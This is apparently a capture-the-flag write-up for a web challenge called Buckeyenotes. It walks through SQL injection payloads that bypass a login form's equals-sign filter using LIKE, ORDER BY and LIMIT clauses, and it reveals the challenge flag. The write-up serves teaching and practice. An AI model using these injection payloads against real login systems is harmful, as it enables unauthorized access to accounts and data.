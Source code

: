# Buckeyenotes

Open this URL: https://buckeyenotes.chall.pwnoh.io/

Test all special characters: `'"&<>` as username and password but we get `Invalid username or password`. In the first time i think it's XSS because we don't have a *HTTP error 500* and `HTTPOnly` is not defined. But we don't have other pages to send or store any data or payload.

So, i try SQL injection:

```
Username: test
Password: ' OR 1=1; --
```

We get this message: `nice try, hacker >:D I removed your equal signs`.

```
Username: rene
Password: ' OR 'abc' LIKE 'abc'; --
```

Success ! We get this message: `Logged in as rene. Nothing posted yet :(`, but we don't have the flag.

To get the flag i use this payload:

```
Username: test
Password: ' OR 'abc' LIKE 'abc' ORDER BY Username; --
```

We get this message: `Success! your flag is buckeye{wr1t3_ur_0wn_0p3n_2_pwn}`

This solution is working because the username is the first in alphabetical order (there are only 5 accounts and the username start with *b*).

There are other solutions to get the flag when the username is not the first in alphabetical order.

```
Username: test
Password: ' OR 'abc' LIKE 'abc' LIMIT 1, 2; --
```

You can change the numbers in the limit.

```
Username: test
Password: 1' OR 1<2 AND USERNAME like 'brutusB3stNut9999
```

This solution is very cool because there is only one request to find the flag.